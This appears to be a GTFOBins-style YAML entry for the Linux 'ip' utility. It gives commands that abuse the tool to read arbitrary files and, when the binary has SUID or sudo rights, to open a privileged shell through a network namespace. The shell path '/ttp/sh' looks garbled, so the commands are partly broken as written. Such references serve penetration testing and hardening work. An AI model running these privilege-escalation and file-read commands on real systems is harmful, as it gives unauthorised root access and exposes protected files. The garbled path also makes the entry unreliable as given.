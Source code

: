 ```yaml
---
description: |
  The read file content is corrupted by error prints.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        ip -force -batch "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./ip -force -batch "$LFILE"
    - description: This only works for Linux with CONFIG_NET_NS=y.
      code: |
        ./ip netns add foo
        ./ip netns exec foo /ttp/sh -p
        ./ip netns delete foo
  sudo:
    - code: |
        LFILE=file_to_read
        sudo ip -force -batch "$LFILE"
    - description: This only works for Linux with CONFIG_NET_NS=y.
      code: |
        sudo ip netns add foo
        sudo ip netns exec foo /ttp/sh
        sudo ip netns delete foo
---
```

